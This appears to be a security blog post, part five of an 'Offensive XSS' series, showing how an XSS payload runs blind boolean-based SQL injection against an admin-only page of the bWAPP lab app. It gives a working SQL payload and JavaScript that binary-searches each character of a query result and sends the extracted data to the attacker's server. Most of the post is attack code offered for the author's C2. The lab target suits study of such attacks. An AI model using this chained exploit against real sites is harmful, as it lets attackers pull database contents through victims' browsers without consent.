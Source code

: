 ```yaml
---
layout: post
title:  "Offensive XSS 5: Blind Boolean based SQLi"
date:   2022-05-10 18:05:55 +0300
image:  OffensiveXSS5/title.jpg
author-name: strik1r
tags:   [XSS, data extraction]
---
```


<h2>Prologue:</h2>
In the previous blog posts, we've worked on improving our XSS capabilities. In this blog post will be combining XSS with another web application vulnerability "SQL Injection" to inject a payload on a remote site which we cannot access directly, but our victim might.
<br>
We are in the browser and found out that an admin can reach a web page where blind boolean based SQLI is possible. However we do not have direct access to the page we can only do an XSS. So in this post we will attack the SQLI vulnerability from our xss and sending back the result to us.
<br>
<h3>The Payload</h3>
```
 ' or (select ascii(substring((select version()),2,1)))<32#
```
Explanation: 
It is Boolean based payload so it only returns either a TRUE or FALSE. Let's go from the inside out. The "select version()" query defines what we want to grab. In this case we are just requesting the version of the application to confirm SQL injection. The substring command extracts a part of the result of the "select version()". Here we define that we want the 2nd character from the result with a length of 1 so we are basically request only the 2nd character itself. With the ASCII function we convert the previously extracted character to the number corresponding to it in the ASCII table. Finally we are checking if this number is smaller than 32. To make it faster we will not be checking each character for every number. We will understand later on what we are doing and the why of it. 

<h2>The code</h2>
This time around we will be writing a simple code and do not integrate it in the C2 we created because the integration should be trivial and it would just take up extra space here. However, the source code to the C2 will be available on the GitHub.
<br>
```

async function runSqliPayload(dataToGrab,characterNumber,symbol,resultValue) {
    site = `http://bee/bWAPP/sqli_4.php?title=' or (select ascii(substring((${dataToGrab}),${characterNumber},1)))${symbol}${resultValue}%23&action=search`
    let response = await fetch(site,{
        method: "GET"
    });
    let text = await response.text()
    if (text.includes("The movie exists")) {
        return true
    }
    return false
}
```
<br>
Starting with a simple function that will make a request to the defined site. Checking the site by hand we have noticed that if the response contains the text "The movie exists" we know that the boolean sqli statement was correct. This is the only time we return True, otherwise False.  We also noticed that the SQL injection payload is in the GET request parameters so we need to send a GET request. We also parameterized the request so that we can change the data to extract (previously select version()), starting character (previously 2), symbol (previously <), resultValue (previously 32).
<br>
```
async function sqli() {
    maxLength = 20;
    result = ""
    for (var i = 1; i < maxLength; i++){
        first = 0
        last = 250
        found = false
        payload = "select version()"
        while (!found){
            j = Math.round((first + last) / 2)
            graiterThenResult = await runSqliPayload(payload,i,">",j)
            if (graiterThenResult){
                first = j
            } else {
                smallerThenResult = await runSqliPayload(payload,i,"<",j)
                if (smallerThenResult){
                    last = j
                    if (last < 2) {
                        found = true
                    }
                } else {
                    equalResult = await runSqliPayload(payload,i,"=",j)
                    if (equalResult){
                        result = result + String.fromCharCode(j)
                        found = true
                    }
                }
            }
        }    
    }
    return result
}
```
<br>
In the above code, we created a system to divide the possible range by 2 and check if the number we are searching for is bigger or smaller than the range. The maxLength is the maximum length of data we will extract. The range first will start from 0 to 250 and we set a flag that the current character is not found yet. While the flag is False, we will create the number we would like to compare to the version character. For example in our case the version will start with the number 5. 5 in ASCII is 53, that is the result we would get from ascii(substring((select version()),1,1)). Initially, we grab the first and last value, add them together and divide them by 2. So we get 125. Then we will check if 53 is greater than 125. The answer will be False so we continue and check if 53 is smaller then 125. This time it is yes so we can set the last number to 125 because now we are sure that we are searching for something smaller than 125. Then we add 0 and 125 together divided by 2 and round up the result we will get 63 and we do this until we arrive at the equality check. If we have a result then we convert the found number to a character and add it to the result. There is also a small check to see if the last number is smaller than 2. If the string we are searching for has the length 10 but we are searching for a max length of 20 we will get back a lot of null responses. This little check is to eliminate the infinite loops that can happen in this case.
<br>
<br>
```
async function main() {
    result = await sqli()
    sendBackUrl = "http://127.0.0.1/result=" + result
    xhr = new XMLHttpRequest();
    xhr.open('GET', sendBackUrl);
    xhr.send();
}

main()
```
<br>
At the end we have a small runner that will execute the SQLi attack and send the result back to our server.
<br>
![](/img/OffensiveXSS5/sqli1.PNG)


<h2>Prologue:</h2>
After exploring blind SQLi injection and extraction of results back to our server. We can definitely say that it is easier to integrate this as a capability to our SeXSSy-C2. All we need are perfect parameters and codifying this shouldn't be hard. In the next post we will continue exploring and adding impressive XSS tricks we can do with XSS. As always, purely Offensive ofcourse! :)

